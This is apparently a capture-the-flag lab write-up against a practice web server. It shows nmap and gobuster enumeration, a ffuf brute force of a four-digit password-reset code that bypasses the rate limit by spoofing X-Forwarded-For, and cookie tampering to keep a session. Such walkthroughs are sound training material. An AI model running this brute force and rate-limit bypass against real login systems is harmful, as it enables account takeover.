# Enumeration
First let's make an nmap scan
```bash
root$ nmap -sV -p80-10000 -sC 10.10.230.5
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-13 06:52 GMT
Nmap scan report for 10.10.230.5
Host is up (0.0017s latency).
Not shown: 9920 closed ports
PORT     STATE SERVICE VERSION
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
MAC Address: 02:52:C5:DB:61:59 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.61 seconds

```
Here we can see that the port 1337 run an http server.

This page contain a login form:
![[Pasted image 20250113075511.png]]
## Explore the code
![[Pasted image 20250113082047.png]]
You can see in the code source that the developper let a note that speak about the directory name convention.
## Directory Enumeration 
### Create the wordlist
Lets create a wordlist that respect the convention:
```bash
root$ sed 's/^/hmr_/' /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt > hmr_wordlist.txt
```
### Enumerating directory
```bash
root$ gobuster dir -u http://10.10.230.5:1337/ -w hrm_wordlist.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.230.5:1337/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                hmr_wordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/hmr_images           (Status: 301) [Size: 322] [--> http://10.10.230.5:1337/hmr_images/]
/hmr_css              (Status: 301) [Size: 319] [--> http://10.10.230.5:1337/hmr_css/]
/hmr_js               (Status: 301) [Size: 318] [--> http://10.10.230.5:1337/hmr_js/]
/hmr_logs             (Status: 301) [Size: 320] [--> http://10.10.230.5:1337/hmr_logs/]
Progress: 220557 / 220558 (100.00%)
===============================================================
Finished
===============================================================
```
We can see that we found:
- images/
- css/
- js/
- logs/
## Logs.txt
We can see in the file: http://<IP\>:1337/hmr_logs/error.logs
![[Pasted image 20250113082922.png]]
# Bypass Auth
## Reset the password
You can see that when you put a valid email, you are redirected to this page:
![[Pasted image 20250113083437.png]]
### HTTP
Here is the request:
```http
POST /reset_password.php HTTP/1.1
Host: <IP>:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://10.10.230.5:1337
Connection: keep-alive
Referer: http://<IP>:1337/reset_password.php
Cookie: PHPSESSID=q03l66rhl147291hobsvn2mkhd
Upgrade-Insecure-Requests: 1
Priority: u=0, i

recovery_code=1002&s=70
```
The variable `recovery_code` contain the code that we have to bruteforce
#### Bruteforce
First, we have to create the file with all the value:
```bash
$ seq 0000 9999 >> brutefile.txt
```

Then we can use the burp suite intruder to bruteforce it. See [[Basic_token#Bruteforce]]

We can see that we have a rate limite (8)
![[Pasted image 20250113115152.png]]
##### Rate-limit bypass
In this lab, when you change the value of the `X-Forwarded-For` your rate-limit-pending is reset to 9.
![[Pasted image 20250113120700.png]]
#### Fuff
Then we can create a fuff bruteforce request:
```bash
ffuf -w brutefile.txt \
-u "http://<IP>:1337/reset_password.php" \
-X "POST" \
-d "recovery_code=FUZZ&s=60" \
-H "Cookie: PHPSESSID=<PHP_SESSIONID>" \
-H "X-Forwarded-For: FUZZ" \
-H "Content-Type: application/x-www-form-urlencoded" \
-fr "Invalid" \
-s
```

### Flag 1
Finally you can find the flag
![[Pasted image 20250113151930.png]]
# Keep connection
Here is the fonction that disconnect you if you don't have a persistentSession cookie set to yes:
```js
<script>
function getCookie(name) {|
	const value = `; ${document.cookie}`;|
	const parts = value.split(`; ${name}=`);|
	if (parts.length === 2) return parts.pop().split(';').shift();|
}

function checkTrailUserCookie() {|
	const trailUser = getCookie('persistentSession');|
	if (!trailUser) {|

	window.location.href = 'logout.php';|
}
setInterval(checkTrailUserCookie, 1000);|
```
So you have to set your cookie to yes
![[Pasted image 20250113152233.png]]
FF
